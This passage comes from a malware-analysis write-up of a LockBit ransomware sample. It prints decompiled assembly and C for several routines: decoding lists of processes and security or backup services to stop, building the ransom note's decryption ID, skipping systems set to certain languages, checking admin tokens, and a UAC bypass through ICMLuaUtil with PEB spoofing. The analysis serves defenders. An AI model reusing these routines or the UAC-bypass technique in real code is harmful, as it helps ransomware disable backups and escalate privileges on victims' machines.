		And this is the decoded result, which surprisingly is not a hash but a list of processes that probably will be closed, a blacklist of processes:
		<div align="center"></div>
		The list of processes is the following one:
			1. `sql`  
			2. `oracle`  
			3. `ocsssd`  
			4. `dbsnmp`  
			5. `synctime`  
			6. `agntsvc`  
			7. `isqlplussvc`  
			8. `xfssvcccon`  
			9. `mydesktopservice`  
			10. `ocautoupds`  
			11. `encssvc`  
			12. `firefox`  
			13. `tbirdconfig`  
			14. `mydesktopqos`  
			15. `ocomm`  
			16. `dbeng50`  
			17. `sqbcoreservice`  
			18. `excel`  
			19. `infopath`  
			20. `msaccess`  
			21. `mspub`  
			22. `onenote`  
			23. `outlook`  
			24. `powerpnt`  
			25. `steam`  
			26. `thebat`  
			27. `thunderbird`  
			28. `visio`  
			29. `winword`  
			30. `wordpad`  
			31. `notepad`  
			32. `calc`  
			33. `wuauclt`  
			34. `onedrive`
	- `DAT_0042514c`, 244 bytes (`0x5CD` - `0x6C0`):
		At this address we store the pointer to the sixth decoded base64 data.
```assembly
...
	LAB_004070e6:
MOV        EAX,dword ptr [EDI + 0x18] ;EAX = (decompressed_data + 0xb8 + 0x18)
TEST       EAX,EAX                                  ; check if not null
JZ         LAB_00407119                             ; skip if null
LEA        EBX,[EAX + EDI*0x1]    ; (decompressed_data + 0xb8) + 0x515
PUSH       EBX                             ; pass ptr starting at base64 data
CALL       calculate_base64_decoded_size   ; size of decoded base64 until /0
LEA        EAX,[EAX + 0x2]                 ; EAX = size + 2 (2 bytes more)
PUSH       EAX                                      ; pass size to alloc
CALL       allocate_data_processheap_antidbg        ; ptr to alloc data buffer
MOV        [DAT_0042514c],EAX              ; DAT_0042514c = ptr alloc buffer
CMP        dword ptr [DAT_0042514c],0x0             ; check not null
JZ         LAB_00407119                             ; skip if null
PUSH       dword ptr [DAT_0042514c]                 ; pass ptr to alloc buffer
PUSH       EBX                      ; pass ptr starting at encoded base64 data
CALL       base64_decoder_func                      ; decode until /0
	LAB_00407119:
...
```
.
		This is the HEX that will be decoded:
		<div align="center"></div>
		And this is the decoded result, which is also surprisingly not a hash. It contains a list of services that probably will be stopped, a blacklist of services:
		<div align="center"></div>
		The list of services is the following one:
			1. `vss`  
			2. `sql`  
			3. `svc$`  
			4. `memtas`  
			5. `mepocs`  
			6. `msexchange`  
			7. `sophos`  
			8. `veeam`  
			9. `backup`  
			10. `GxVss`  
			11. `GxBlr`  
			12. `GxFWD`  
			13. `GxCVD`  
			14. `GxCIMgr`
	- DAT_00425150:
		At this address we don't store anything because `decompressed_data + 0xb8 + 0x1c` is empty.
```assembly
...
	LAB_00407119:
MOV        EAX,dword ptr [EDI + 0x1c] ;EAX = (decompressed_data + 0xb8 + 0x1c)
TEST       EAX,EAX                                   ; check if not null
JZ         LAB_0040714c                             ; skip if null (it's null)
LEA        EBX,[EAX + EDI*0x1]    ; (decompressed_data + 0xb8) + ??
PUSH       EBX                    ; pass ptr starting at base64 data
CALL       calculate_base64_decoded_size     ; size of decoded base64 until /0
LEA        EAX,[EAX + 0x2]                   ; EAX = size + 2 (2 bytes more)
PUSH       EAX                                       ; pass size to alloc
CALL       allocate_data_processheap_antidbg ; ptr to alloc data buffer
MOV        [DAT_00425150],EAX                ; DAT_00425150 = ptr alloc buffer
CMP        dword ptr [DAT_00425150],0x0              ; check not null
JZ         LAB_0040714c                              ; skip if null
PUSH       dword ptr [DAT_00425150]          ; pass ptr to alloc buffer
PUSH       EBX                      ; pass ptr starting at encoded base64 data
CALL       base64_decoder_func                       ; decode until /0
	LAB_0040714c:
...
```
.
		There is no hex to decode, because `EAX` will be empty.
	- `DAT_00425154`, 416 bytes (`0x6C2` - `0x861`):
		At this address we get the length of the string with [`strlen`](https://learn.microsoft.com/en-us/cpp/c-runtime-library/reference/strlen-wcslen-mbslen-mbslen-l-mbstrlen-mbstrlen-l?view=msvc-170), until the null terminator '/0', and with [`strcpy`](https://learn.microsoft.com/en-us/cpp/c-runtime-library/reference/strcpy-wcscpy-mbscpy?view=msvc-170) we copy that amount of bytes to `DAT_00425154`, the inner pointer to the allocated buffer data at the process heap. So the data is for now not decoded. (Later we will see it is a list of Active Directory credentials to brute force).
```assembly
...
	LAB_0040714c:
MOV        EAX,dword ptr [EDI + 0x20] ;EAX = (decompressed_data + 0xb8 + 0x20)
TEST       EAX,EAX                                 ; check if not null
JZ         LAB_00407187                            ; skip if null
LEA        EBX,[EAX + EDI*0x1]            ; (decompressed_data + 0xb8) + 0x60A
PUSH       EBX                                     ; pass ptr to string
CALL       dword ptr [strlen]                      ; get strlen(string)
ADD        ESP,0x4                                 ; clean up stack
LEA        EAX,[EAX + 0x2]               ; EAX = size + 2 (for \0 and safety)
PUSH       EAX                                     ; pass size to alloc
CALL       allocate_data_processheap_antidbg       ; ptr to alloc data buffer
MOV        [DAT_00425154],EAX                ; DAT_00425154 = ptr alloc buffer
CMP        dword ptr [DAT_00425154],0x0            ; check not null
JZ         LAB_00407187                            ; skip if null
PUSH       EBX                                     ; source string ptr
PUSH       dword ptr [DAT_00425154]                ; destination buffer
CALL       dword ptr [strcpy]                      ; copy string to dst buffer
ADD        ESP,0x8                                 ; clean up stack
	LAB_00407187:
...
```
.
		This is the HEX that will be copied:
		<div align="center"></div>
		The same content is copied to `DAT_00425154`.
	- `DAT_00425158`, 496 bytes (`0x863` - `0xA52`):
		At this address we store the pointer to the seventh decoded Base64 data (the previous one was not decoded).
```assembly
...
	LAB_00407187:
MOV        EAX,dword ptr [EDI + 0x24] ; EAX= (decompressed_data + 0xb8 + 0x24)
TEST       EAX,EAX                           ; check if not null
JZ         LAB_00407227                      ; skip if null
LEA        EBX,[EAX + EDI*0x1]            ; (decompressed_data + 0xb8) + 0x7AB
PUSH       EBX                            ; pass ptr starting at base64 data
CALL       calculate_base64_decoded_size     ; size of decoded base64 until /0
LEA        EAX,[EAX + 0x2]                   ; EAX = size + 2 (2 bytes more)
PUSH       EAX                               ; pass size to alloc
CALL       allocate_data_processheap_antidbg ; ptr to alloc data buffer
MOV        [DAT_00425158],EAX                ; DAT_00425158 = ptr alloc buffer
CMP        dword ptr [DAT_00425158],0x0      ; check not null
JZ         LAB_00407227                      ; skip if null
PUSH       dword ptr [DAT_00425158]          ; pass ptr to alloc buffer
PUSH       EBX                     ; pass ptr starting at encoded base64 data
CALL       base64_decoder_func               ; decode until /0
MOV        [DAT_00425174],EAX               ; leftover data from base64 decode
...
```
.
		This is the HEX that will be decoded and decrypted because it contains a ransom note with a placeholder for a `DECRYPTION ID`, to help the attackers identify which decryption key the user needs after the ransom is paid.
		<div align="center"></div>
		And this is the decoded result, which is encrypted for now:
		<div align="center"></div>
	After the `DAT_00425158` assignation, there are some interesting steps before concluding the function. It first gets with get_32bytes_decryptionid_func a 32-byte DECRYPTION ID, half of which is part of the RSA key and the other half is a random value. Then with the encrypted decoded ransom note, we decrypt it with the function `two_round_xor_decryption_func()`, and then we create a new buffer of data at the heap of the process to store the ransom note with the placeholder replaced with the `DECRYPTION ID`, using [`sprintf`](https://learn.microsoft.com/en-us/cpp/c-runtime-library/reference/sprintf-sprintf-l-swprintf-swprintf-l-swprintf-l?view=msvc-170). Then we encrypt it again with the function `two_round_xor_decryption_func()` and free allocated data.
```asssembly
CALL       base64_decoder_func         ; decode until /0
MOV        [DAT_00425174],EAX     ; store size of the decoded encrypted ransom note
LEA        EAX,[EBP - 0x38]            ; EAX = local_3c ptr
PUSH       EAX                         ; pass local_3 ptr
CALL       get_32bytes_decryptionid_func ; local_3c = DECRYPTION ID
PUSH       dword ptr [DAT_00425174]   ; size of decoded base64 encryted ransom note
PUSH       dword ptr [DAT_00425158]    ; ptr to decoded base64 encryted ransom note
CALL       two_round_xor_decryption_func  ; decrypt encrypted decoded base 64 
										  ; ransom note
MOV        EAX,[DAT_00425174]             ; EAX = DAT_00425174, size of decoded 
								          ; base64 encryted ransom note
ADD        EAX,0x30                       ; add 0x30 byte for DECRYPTION ID
PUSH       EAX                                     ; pass new size
CALL       allocate_data_processheap_antidbg ; allocate buffer for the decrypted
											 ; ransom note with DECRYPTION ID
MOV        ESI,EAX                                 ; ESI = ptr to alloc buffer
TEST       ESI,ESI                                 ; check success
JZ         LAB_00407227                            ; if null end
LEA        EAX,[EBP - 0x38]           ; EAX = local_3c (DECRYPTION ID)
PUSH       EAX                        ; pass DECRYPTION ID
PUSH       dword ptr [DAT_00425158] ;decrypted decoded base64 buffer w/ ransom note
PUSH       ESI                ; destination buffer for ransom note w/ DECRYPTION ID
CALL       dword ptr [sprintf] ; add DECRYPTION ID at the placeholder of ransom
							   ; note at ESI and returns size of bytes stored
ADD        ESP,0xc                                 ; clean stack
MOV        [DAT_00425174],EAX           ; store size of the whole note
PUSH       dword ptr [DAT_00425174]       ; pass ransom note w/ DECRYPTION ID
PUSH       ESI                            ; pass destination buffer again
CALL       two_round_xor_decryption_func  ; Encrypt it again
PUSH       dword ptr [DAT_00425158]               ; free original buffer
CALL       rtl_freeheap_antidbg_func              ; free with anti-debug logic
MOV        dword ptr [DAT_00425158],ESI           ; update pointer to final buffer
	LAB_00407227:
PUSH       dword ptr [EBP + copy_decomp_data]     ; free copy_decomp_data
CALL       rtl_freeheap_antidbg_func
	LAB_0040722f:
PUSH       dword ptr [EBP + ptr_comp_data]        ; free ptr_comp_data
CALL       rtl_freeheap_antidbg_func
	LAB_00407237:
...
RET                                            ; return from FUN_00406f48
```
.
	- get_32bytes_decryptionid_func (FUN_00406ee4):
		The function retrieves the format of [`sprintf`](https://learn.microsoft.com/en-us/cpp/c-runtime-library/reference/sprintf-sprintf-l-swprintf-swprintf-l-swprintf-l?view=msvc-170), `%02X`, performing `XOR` with the usual mask. Based on [`Microsoft Documentation`](https://learn.microsoft.com/en-us/cpp/c-runtime-library/format-specification-syntax-printf-and-wprintf-functions?view=msvc-170), it fills with zeroes at the left if it doesn't reach the minimum characters, which is set to two and shows the numbers as HEX in uppercase. It stores processes the first 8 bytes of suspected RSA key, that with each byte is stored in `param_1` the HEX in uppercase representation, 2 characters ASCII for each byte, resulting in 16 bytes of data. After the first 16 bytes of the RSA key, 8 bytes representation, it stores the 17 bytes (16 bytes plus null terminator) from the function `ptr_to_16bytes_randnumber()`, that with each function it will return a random 16 bytes value.
```c
void FUN_00406ee4(undefined *param_1)
{
  i = 0;
  format = 0x58323025;  // 0x48316fda ^ 0x10035fff = '%02X'
                        // Format string for sprintf
                        // - '%' = format specifier
                        // - '0' = pad with 0s
                        // - '2' = min width 2 chars
                        // - 'X' = uppercase hexadecimal (e.g., 0A, FF)
  char_ptr = &DAT_00424f70; // pointer to 128-byte static buffer (possible RSA key)

  // Processes first 8 bytes of RSA key
  do {
    (*sprintf)(param_1, &format, *char_ptr); // Write each byte to its 2-char
										     //  uppercase hex equivalent
    param_1 = param_1 + 2; // Advance 2 bytes (each byte is represented by 2 chars)
    i = i + 1;
    char_ptr = char_ptr + 1;
  } while (i != 8);  // Total: 16 ASCII characters written (8 * 2)

 // Allocate 17 bytes filled with hex pairs of random bytes (16 bytes + '/0')
  heap_alloc_buffer = (undefined *)ptr_to_16bytes_randnumber();
  copy_ptr = heap_alloc_buffer;

  // Copy 18 bytes from that buffer directly after the 16 ASCII chars
  for (i = 0x12; i != 0; i--) {
    *param_1 = *copy_ptr; // Copy 1 byte
    copy_ptr++;
    param_1++; // Advance destination pointer
  }

  *param_1 = 0; // Null-terminate the entire sequence (as a C string)

  // Free the temporary heap buffer
  rtl_freeheap_antidbg_func(heap_alloc_buffer);
}
``` 
.
		- ptr_to_16bytes_randnumber (FUN_00406e8c):
			In this function, the format string `%02X` for [`sprintf`](https://learn.microsoft.com/en-us/cpp/c-runtime-library/reference/sprintf-sprintf-l-swprintf-swprintf-l-swprintf-l?view=msvc-170) is reconstructed by XORing the original encoded value with the usual static mask. Based on the [`Microsoft Documentation`](https://learn.microsoft.com/en-us/cpp/c-runtime-library/format-specification-syntax-printf-and-wprintf-functions?view=msvc-170), this format fills the output with leading zeroes if the hexadecimal representation is shorter than two characters and prints the number in uppercase hexadecimal. A 17-byte buffer is then allocated using `allocate_data_processheap_antidbg()`, enough to store 16 characters plus a null terminator (`'\0'`). Inside a loop that runs 8 times, a random number is retrieved using `generate_seed_func()`. The least significant byte of this number is extracted using a bitmask (`& 0xFF`) and converted into two ASCII characters using `sprintf` with the `"%02X"` format. These two characters are written to the allocated buffer, which is incremented by 2 on each iteration. As a result, the buffer ends up storing the uppercase hexadecimal representation (2 bytes per iteration) of 8 random bytes, totalling 16 characters.
```c
int FUN_00406e8c(void)
{
  format = 0x58323025;  // 0x48316fda ^ 0x10035fff = '%02X'
                        // Format string for sprintf
                        // - '%' = format specifier
                        // - '0' = pad with 0s
                        // - '2' = min width 2 chars
                        // - 'X' = uppercase hexadecimal (e.g., 0A, FF)
  local_5 = 0;
// Allocate data at heap of the process with a size of 17 bytes(16 chars + '/0')
  process_heap_alloc_buffer = allocate_data_processheap_antidbg(0x11);
  if (process_heap_alloc_buffer != 0) {
    i = 0;
    copy_alloc_buffer = process_heap_alloc_buffer;
    do {
      rand_number = generate_seed_func(); // Retrieve random number
      // Copy last byte of the random number to the allocated buffer
      // Convert it to uppercase hexadecimal (2 ASCII characters)
      // Example: 0x4F -> '4F' -> stored as 0x34 0x46
      (*sprintf)(copy_alloc_buffer,&format,(uint)rand_number & 0xff); 
      copy_alloc_buffer = copy_alloc_buffer + 2; // Advance the ptr of copy buffer
      i = i + 1;
    } while (i != 8); // 2 bytes * 8 iterations (16 bytes)
  }
  return process_heap_alloc_buffer;
}
```
.
			The function returns a buffer allocated at the process heap of 17 bytes that contains a random value of 16 bytes plus the null terminator `/0`. We will rename the function to `ptr_to_16bytes_randnumber()`.
			<div align="center"></div>
		The function returns a random `DECRYPTION ID`, with the first 16 bytes being the ASCII uppercase representation of the HEX of the first 8 bytes of the suspected RSA key plus 16 other bytes that are completely random in each execution. This `DECRYPTION ID` is used for the identification of the machine in order to identify which decryption key the attacker should provide after the payment of the ransom is made. 
		The function will be renamed to `get_32bytes_decryptionid_func`:
		<div align="center"></div>
    
.
	With the function `get_32bytes_decryptionid_func()` we obtain the `DECRYPTION ID`:
	<div align="center"></div>
	After decrypting it with the first function invoke of `two_round_xor_decryption_func()`, we can see that the result is a note to extort the user with a `%s` placeholder for `DECRYPTION ID`.
	<div align="center"></div>
	With [`sprintf`](https://learn.microsoft.com/en-us/cpp/c-runtime-library/reference/sprintf-sprintf-l-swprintf-swprintf-l-swprintf-l?view=msvc-170) we put the `DECRYPTION ID` at the note to extort the user:
	<div align="center"></div>
	And after that, with the second function invocation of `two_round_xor_decryption_func()` the content is once again encrypted for later use of it:
	<div align="center"></div>
	Based on this, the function will be renamed to `prepare_payload_and_config_data_func`:
	<div align="center"></div>
  
Then after that it checks if `DAT_00425124` is empty, and it will be, because we still haven't seen any modification and it is empty by default. So it will enter the function `FUN_004080b8()`, which, depending on if it returns `0`, will continue its execution, but if it's distinct, then it will stop the execution of the program with the function [`ExitProcess`](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-exitprocess).
- whitelist_language_func (FUN_004080b8):
	<div align="center"></div>
  
	This function retrieves the installed languages with [`NtQueryInstallUILanguage`](https://ntdoc.m417z.com/ntqueryinstalluilanguage) and the default language that is being used with [`NtQueryDefaultUILanguage`](https://ntdoc.m417z.com/ntquerydefaultuilanguage), checking if it's part of one of the following language codes, because if it is, then LockBit will not be executed. Probably the attackers are from some of these regions, and that's why they're not targeting people from these regions.

| Code   | Language (Locale)                      |
| ------ | -------------------------------------- |
| 0x0419 | Russian (Russia)                       |
| 0x0422 | Ukrainian (Ukraine)                    |
| 0x0423 | Belarusian (Belarus)                   |
| 0x0428 | Tajik (Cyrillic, Tajikistan)           |
| 0x042B | Armenian (Armenia)                     |
| 0x042C | Azerbaijani (Cyrillic, Azerbaijan)     |
| 0x0437 | Georgian (Georgia)                     |
| 0x043F | Kazakh (Kazakhstan)                    |
| 0x0440 | Kyrgyz (Kyrgyzstan)                    |
| 0x0442 | Turkmen (Turkmenistan)                 |
| 0x0443 | Uzbek (Latin, Uzbekistan)              |
| 0x0444 | Tatar (Tatarstan, Russia)              |
| 0x0818 | Mongolian (Traditional Mongolian, PRC) |
| 0x0819 | Russian (Cyrillic, Moldova)            |
| 0x082C | Azerbaijani (Cyrillic, Azerbaijan)     |
| 0x0843 | Uzbek (Cyrillic, Uzbekistan)           |
| 0x2801 | Arabic (Syria)                         |

.
	Codes of the countries were obtained from [`Microsoft Windows Language Code Identifier Documentation`](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-lcid/70feba9f-294e-491e-b6eb-56532684c37f), and the page to see to which country the code pertained is with [`Localizely`](https://localizely.com/language-country-codes/).
	Because the function whitelists the user's default language by not executing the ransomware if the default language is one of the previous ones, we will rename the function to whitelist_language_func():
	<div align="center"></div>
  
Now the next executed function is `FUN_0040b4dc()`, and if it returns `0`, then it retrieves the Windows Operating System version with the function `get_OS_version_func()`, and if is newer than Windows Vista, then it executes `FUN_0040b4fc()` with the parameter `0`, that if it returns a value distinct from zero, it will execute `FUN_0040babc()` and terminate the process with [`NtTerminateProcess`](https://ntdoc.m417z.com/ntterminateprocess). If it was Windows Vista or older or the `FUN_0040b4fc()` return value was zero, then it will continue executing the rest of the code.
<div align="center"></div>
	-  get_user_sid_result_func (FUN_0040b4dc):
	<div align="center"></div>

 .
	This is a simple function that returns if a specific Security Identifier (SID) is enabled on an access token with [`CheckTokenMemebership`](https://learn.microsoft.com/en-us/windows/win32/api/securitybaseapi/nf-securitybaseapi-checktokenmembership). The first parameter that is the handle to the token is passed as NULL, because it will take the impersonation token of the calling thread. The second parameter `DAT_0040b4cc` contains the [`SID structure`](https://learn.microsoft.com/en-us/windows/win32/api/winnt/ns-winnt-sid), with the following values:
```c
typedef struct _SID { 
	BYTE Revision;                                // 0x1 = 1
	BYTE SubAuthorityCount;                       // 0x2 = 2
	SID_IDENTIFIER_AUTHORITY IdentifierAuthority; // 0x5 = SECURITY_NT_AUTHORITY
#if ... 
	DWORD *SubAuthority[];                   // 0x20 = SECURITY_BUILTIN_DOMAIN_RID
#else 
	DWORD SubAuthority[ANYSIZE_ARRAY];          // 0x220 = DOMAIN_ALIAS_RID_USERS
#endif 
} SID, *PISID;
```
.
	The structure represents the SID `S-1-5-32-544`, based on the well-known SIDs from [`Microsoft Documentation`](https://learn.microsoft.com/en-us/windows/win32/secauthz/well-known-sids):
	- `S-1`: SID revision 1
	- `5`: NT Authority
	- `32`: Built-in domain
	- `544`: Administrator group
	Based on this, we will rename the function `get_user_sid_result_func`:
	<div align="center"></div>
  
`get_user_sid_result_func()` will return a distinct value from `0` if it's true that it's an administrator, but if it's zero, then it doesn't have enough permissions, which is what the malware is seeking, because if it's a normal user, not an administrator, it will continue by looking if the Windows operating system is newer than Windows Vista, retrieved with `get_OS_version_func()`, and will execute the function `FUN_0040b4fc()` with `0` as a parameter.

- is_token_admin_member (FUN_0040b4fc)
	First is checking if `param_1` is zero, meaning that no process handle has been passed. `param_1` is `0`, so it invokes [`NtOpenProcessToken`](https://learn.microsoft.com/en-us/windows-hardware/drivers/ddi/ntifs/nf-ntifs-ntopenprocesstoken) which takes the handle of the own process (`0xffffffff`) with the desired access, [`TOKEN_QUERY`](https://learn.microsoft.com/en-us/windows/win32/secauthz/access-rights-for-access-token-objects) (`0x8`), based on [React OS Documentation](https://doxygen.reactos.org/da/d86/xdk_2setypes_8h_source.html#l00928), which enables consulting access tokens. Otherwise, if the handle is passed, then it uses that token. Then it retrieves the size of the token group information with [`NtQueryInformationToken`](https://learn.microsoft.com/en-us/windows-hardware/drivers/ddi/ntifs/nf-ntifs-ntqueryinformationtoken) and uses that size to allocate data at the process heap, returning a pointer to that buffer. With the allocated buffer at the process, it is passed on to the second function invoke of [`NtQueryInformationToken`](https://learn.microsoft.com/en-us/windows-hardware/drivers/ddi/ntifs/nf-ntifs-ntqueryinformationtoken) to store the groups to which the token belongs. This data corresponds to a structure of type [`TOKEN_GROUPS`](https://learn.microsoft.com/en-us/windows/win32/api/winnt/ns-winnt-token_groups), according to [`TOKEN_INFORMATION_CLASS`](https://learn.microsoft.com/en-us/windows-hardware/drivers/ddi/ntifs/ne-ntifs-_token_information_class), which contains a count followed by an array of [`SID_AND_ATTRIBUTES`](https://learn.microsoft.com/en-us/windows/win32/api/winnt/ns-winnt-sid_and_attributes) structures, each representing a group SID and its attributes.
	The function then iterates through all group entries by using a pointer to the array of `SID_AND_ATTRIBUTES`, comparing each entry to a hardcoded SID structure embedded at `DAT_0040b4cc`. The check is done by verifying that the SID’s `SubAuthority[0]` and `SubAuthority[1]` fields match the expected values `0x20` and `0x220`, which correspond to the **Users group** SID (`S-1-5-32-545`), based on [`Well-Known SIDs`](https://learn.microsoft.com/en-us/windows/security/identity-protection/access-control/security-identifiers).
	If a match is found, it sets `result = 1`, signalling that the token is a member of the **Users** group (not Administrators), and breaks out of the loop.
	After checking all groups or breaking early, the heap-allocated buffer is freed using `rtl_freeheap_antidbg_func`. Finally, if the token handle was created locally (i.e., `param_1 == 0`), it is closed using [`ZwClose`](https://docs.rs/ntapi/latest/aarch64-pc-windows-msvc/ntapi/ntzwapi/fn.ZwClose.html).
	The function ultimately returns the value of `local_8`, which is `1` if the token is part of the **Users** group and `0` otherwise.
	 
```c
undefined4 FUN_0040b4fc(int param_1)
{
  result = 0;  // Default return value (not admin)
  if (param_1 == 0) {
    // Open process token with TOKEN_QUERY (0x8) rights
    query_status = (*NtOpenProcessToken)(0xffffffff, 0x8, &token_handle);
  } else {
    token_handle = param_1;
    query_status = 0;  // Assume success since handle is given
  }
  if (query_status == 0) {
    // First call to determine required buffer size for token group info
    (*NtQueryInformationToken)(token_handle, 2, &token_groups_ptr, 4,&group_count);
    // Allocate buffer of required size at process heap
    token_groups_ptr = (int *)allocate_data_processheap_antidbg(group_count);
    if (token_groups_ptr != (int *)0x0) {
      // Second call to actually retrieve group info
      query_status = (*NtQueryInformationToken)(token_handle, 2, token_groups_ptr, group_count, &group_count);
      if (query_status == 0) {
        group_ptr_iter = token_groups_ptr + 1;  // First SID_AND_ATTRIBUTES
        query_status = *token_groups_ptr;       // GroupCount
        do {
          // Check if group is enabled (Attributes == 0x20)
          // and RID == 0x220 (Administrators group)
          if ((*(int *)(*group_ptr_iter + 0x8) == 0x20) && 
              (*(int *)(*group_ptr_iter + 0xc) == 0x220)) {
            result = 1;  // Member of Administrators group
            break;
          }
          group_ptr_iter = group_ptr_iter + 2;  // Next SID_AND_ATTRIBUTES entry
          query_status = query_status - 1;
        } while (query_status != 0);
      }
      rtl_freeheap_antidbg_func(token_groups_ptr);  // Free allocated buffer
    }
    if (param_1 == 0) {
      (*ZwClose)(token_handle);  // Close token handle if we opened it
    }
  }
  return result;  // 1 if member of admin group, 0 otherwise
}
```
.
	Because the function attempts to see if it's part of an administrator group, after iterating over all the groups until it finds an administrator group or after going through all of them and not finding any, ultimately returning if the token is in an administrator group with `1` and with `0` if it isn't. 
	Because of this, we will rename the function to `is_token_admin_member`:
	<div align="center"></div>
  
So if the token is part of an administrator group, it will execute `FUN_0040babc()` and terminate the process with [`NtTerminateProcess`](https://ntdoc.m417z.com/ntterminateprocess). Otherwise, it will continue with the rest of the logic.

- bypass_uac_icmluautil_spoof_peb_and_relaunch (FUN_0040babc):
	Before analysing this function, we first analysed the nested functions in order to make the functionality of this function clearer, which can be seen after the analysis of this function.
	First, it retrieves pointers to `PEB->ProcessParameters->ImagePathName` and `PEB->ProcessParameters->CommandLine` using the functions `retrieve_process_path_from_peb()` and `retrieve_process_commandline_from_peb()`.
	These pointers at the [`ProcessEnvironmentBlock`](https://www.geoffchappell.com/studies/windows/km/ntoskrnl/inc/api/pebteb/peb/index.htm) are then replaced by using the function `spoof_peb_imagepath_commandline_to_dllhost()`, which assigns new [`_UNICODE_STRING`](https://www.vergiliusproject.com/kernels/x86/windows-10/22h2/_UNICODE_STRING) structures with:
	- `ImagePathName` → `C:\Windows\System32\dllhost.exe` (unquoted)
	- `CommandLine` → `"C:\Windows\System32\dllhost.exe"` (quoted)
    This modification alters the process appearance in memory, making it look like a legitimate `dllhost.exe` instance when inspected via the PEB.
	After the spoof is applied, the function `bypass_uac_icmluautil_spoof()` is called to obtain an **elevated COM interface** to `ICMLuaUtil`, using the [`UAC bypass documented here`](https://github.com/0xlane/BypassUAC) and also implemented in [`UACME`](https://github.com/hfiref0x/UACME).
	At this point, the original pointers to `ImagePathName` and `CommandLine` (stored before the spoof) are used to reconstruct the real command line using `quote_imagepath_and_append_args()`, ensuring that:
	- The image path is properly quoted (`"C:\Users\...\lockbit.exe"`)
	- Any arguments passed remain attached."
	Then, the function [`CommandLineToArgvW`](https://learn.microsoft.com/en-us/windows/win32/api/shellapi/nf-shellapi-commandlinetoargvw) splits the full command line into an `argv` array:
	- `argv[0]`: full executable path
	- `argv[1..n]`: arguments
	If the result only contains only one element (`argc == 1`), it means there are no extra arguments, and it proceeds to execute the command.  
	Otherwise, it searches for the first argument in the original command line using `wcsstr()` and adjusts the pointer `hresult_init` to ensure that the command line string passed to ShellExec has the correct format (if there is no space before the argument, it rewinds by 2 bytes, to probably include the space separator before `argv[1]`).
	Finally, we can see from the [`UAC bypass documented here`](https://github.com/0xlane/BypassUAC) at the file `main.cpp`, which contains the `ICMLuaUtil` vtable structure,  where it invokes the method at the offset `0x24`, that corresponds to `ShellExec()`. It's executed with the real path to LockBit's executable and the argument with which it was invoked (if it didn't have any then it will be `0` at this field).
	This executes **a new elevated instance of the LockBit payload** using the `ShellExec()` method of `ICMLuaUtil`. The spoofed PEB (which makes the parent look like `dllhost.exe`) increases trust and helps bypass UAC more stealthily.
	After execution, the COM object is released via the method at offset `0x08` (corresponding to `Release()`), and the `argv` array is freed with `rtl_freeheap_antidbg_func()`.
	This is the ICMLuaUtil vtable:
```c
typedef struct ICMLuaUtilVtbl {
    /* 0x00 */ HRESULT (__stdcall *QueryInterface)(void);
    /* 0x04 */ ULONG   (__stdcall *AddRef)(void);
    /* 0x08 */ ULONG   (__stdcall *Release)(void);
    /* 0x0C */ HRESULT (__stdcall *SetRasCredentials)(void);
    /* 0x10 */ HRESULT (__stdcall *SetRasEntryProperties)(void);
    /* 0x14 */ HRESULT (__stdcall *DeleteRasEntry)(void);
    /* 0x18 */ HRESULT (__stdcall *LaunchInfSection)(void);
    /* 0x1C */ HRESULT (__stdcall *LaunchInfSectionEx)(void);
    /* 0x20 */ HRESULT (__stdcall *CreateLayerDirectory)(void);
    /* 0x24 */ HRESULT (__stdcall *ShellExec)(void);
} *PICMLuaUtilVtbl;
```

```c
void FUN_0040babc(void)
{
  com_iface_ptr = (int *)0x0;         // output pointer for COM interface
  hresult_init = (*CoInitialize)(0);  // initialize COM library
  if (hresult_init != 0x54f) {  // 0x54F = RPC_E_CHANGED_MODE → ignore if not that
    // get ImagePathName from PEB
    imgpath_ptr   = (short *)retrieve_process_path_from_peb();
    // get CommandLine from PEB 
    cmdline_ptr   = (short *)retrieve_process_commandline_from_peb();
    // spoof both values in PEB to dllhost.exe
    spoof_peb_imagepath_commandline_to_dllhost(); 
	// get elevated ICMLuaUtil* COM interface
    bypass_uac_icmluautil_spoof(&com_iface_ptr);  
    if (com_iface_ptr != (int *)0x0) {  // if COM object returned successfully
      // build formatted command line "ImagePathName" + args (w/ original ptrs)
      imgpath_ptr = quote_imagepath_and_append_args(cmdline_ptr, imgpath_ptr);
	  // split command line into argv array,  argc_out = number of args
      argv_array = (undefined4 *)(*CommandLineToArgvW)(imgpath_ptr, &argc_out);    
      if (argc_out == 1) {
        hresult_init = 0; // no arguments → execute raw
      } else {
        // find first argument in string
        hresult_init = (*wcsstr)(imgpath_ptr, argv_array[1]); 
          // if no space before arg, fix pointer
        if (*(short *)(hresult_init - 2) != 0x20) {     
          hresult_init -= 2;
        }
      }
      // call ICMLuaUtil->ShellExec with: file, args, ... Relaunches lockbit with
      // elevated privileges
      hresult_init = (**(code **)(*com_iface_ptr + 0x24))(
                         com_iface_ptr, *argv_array, hresult_init, 0, 0, 0);
      if (hresult_init == 0) // if success release COM object ICMLuaUtil->Release
        (**(code **)(*com_iface_ptr + 8))(com_iface_ptr);
      }
      rtl_freeheap_antidbg_func(argv_array);              // free argv array
    }
    (*CoUninitialize)();                       // uninitialize COM library
  }
  return;
}
```
.
	- retrieve_process_path_from_peb (FUN_0040164c):
		This function retrieves the [`ProcessEnvironmentBlock`](https://www.geoffchappell.com/studies/windows/km/ntoskrnl/inc/api/pebteb/peb/index.htm) with the function `return_peb_func()`, which retrieves specific data at `0x10`, that is the parameter `RTL_USER_PROCESS_PARAMETERS *ProcessParameters` a pointer to an [`RTL_USER_PROCESS_PARAMETERS`](https://www.vergiliusproject.com/kernels/x86/windows-10/22h2/_RTL_USER_PROCESS_PARAMETERS) structure that contains, as the name states, important parameters from the process, which, if we look at the structure for the offset `0x3c`, accesses a specific value at the `struct _UNICODE_STRING ImagePathName` that starts at the `0x38` offset, which, looking at the [`_UNICODE_STRING`](https://www.vergiliusproject.com/kernels/x86/windows-10/22h2/_UNICODE_STRING) is looking for the `WCHAR* Buffer` (`0x38 + 0x04 = 0x3c`) that contains the file path to our process, avoiding standard APIs that could trigger alerts by behavioural analysis.
```c
undefined4 FUN_0040164c(void)
{
  void *peb;
  peb = return_peb_func();    // Obtain the ProcessEnvironmentBlock pointer
  // Obtain our process file path
  return *(undefined4 *)(*(int *)((int)peb + 0x10) + 0x3c); 
}
```
.
		Based on this, we will rename the function to `retrieve_process_path_from_peb`:
		<div align="center"></div>
	- retrieve_process_commandline_from_peb (FUN_00401640):
